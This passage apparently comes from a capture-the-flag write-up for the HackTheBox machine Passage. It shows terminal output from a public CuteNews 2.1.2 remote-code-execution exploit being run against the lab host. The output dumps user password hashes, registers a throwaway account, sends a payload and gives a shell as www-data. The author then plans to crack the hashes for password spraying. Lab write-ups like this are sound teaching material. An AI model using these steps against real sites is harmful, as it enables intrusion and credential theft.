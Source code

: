 ```bash
└─$ python 48800.py



           _____     __      _  __                     ___   ___  ___
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/
                                ___  _________
                               / _ \/ ___/ __/
                              / , _/ /__/ _/
                             /_/|_|\___/___/




[->] Usage python3 expoit.py

Enter the URL> http://passage.htb/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: ZAWuTDYMZa and password: ZAWuTDYMZa

=======================================================
Sending Payload
=======================================================
signature_key: b198605c0dff17902cd403af12b3aeab-ZAWuTDYMZa
signature_dsi: 5fa6c58bd73193eedcc3e96dd6ca0065
logged in user: ZAWuTDYMZa
============================
Dropping to a SHELL
============================

command > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Crack user hahses

At the mean time, I will try to crack the hashes to hopefully get some passwords to spray
